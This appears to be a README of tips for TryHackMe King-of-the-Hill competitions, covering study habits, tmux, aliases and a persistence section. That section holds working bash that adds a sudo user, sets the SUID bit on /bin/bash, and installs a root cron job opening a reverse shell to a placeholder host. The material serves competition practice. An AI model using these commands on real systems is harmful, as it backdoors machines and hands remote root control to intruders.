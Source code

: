 
### Getting Started 

- Learn the Basics: Before diving into advanced challenges, make sure you have a solid understanding of basic cyber security concepts, including networking, Linux command line, web technologies, and common vulnerabilities.


- Practice Regularly: Consistent practice is key to improving your skills. Spend time on platforms like TryHackMe to tackle various challenges and gain hands-on experience.

- Tools like tmux can help for efficiently managing multiple panes and windows can significantly enhance your performance in KOTH challenges.

- Creating custom aliases can expedite the process of exploiting a box, thereby saving valuable time for patching and maintaining king persistence. 

- Notes: Having completed, neat notes of koth boxes, and one liners can come in handy and save up time. 

- Master Keyboard Shortcuts: Learning keyboard shortcuts for your terminal emulator, text editor, and other tools can significantly improve your workflow efficiency. This includes shortcuts for navigating, editing, and executing commands.



## Persistence 

* Within the context of shell connections, interruptions are frequent occurrences, leading to disconnections or errors that may impede your operations.

* In such instances, implementing persistence stands out as the most effective solution.

* I've listed some ways to establish persistence: 

1. A user with sudo privs:

```bash
newUser() {
    echo -e "\033[0;32m[+] - New User Config " && echo -e "\n"
    echo -e "\033[0;32m[+] - Enter a name for the new user: "
    read Newuser 
    adduser $Newuser 
    usermod -aG sudo $Newuser 
    chmod u+s /bin/bash
    echo -e "${RESET}"
}
newUser 
``` 

2. Utilizing cronjobs to get shells:

```bash
lhost="your lhost"
lport="your lport"
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'" | sudo tee -a /etc/crontab >/dev/null 2>&1
``` 
